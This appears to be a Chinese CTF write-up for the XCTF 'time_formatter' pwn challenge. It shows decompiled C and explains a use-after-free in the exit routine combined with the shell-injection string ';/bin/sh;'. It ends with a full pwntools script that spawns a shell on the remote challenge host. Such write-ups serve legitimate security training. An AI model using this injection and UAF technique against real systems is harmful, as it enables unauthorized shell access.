



### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。

试试这个shell注入`';/bin/sh;'`

可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。

不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。

那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
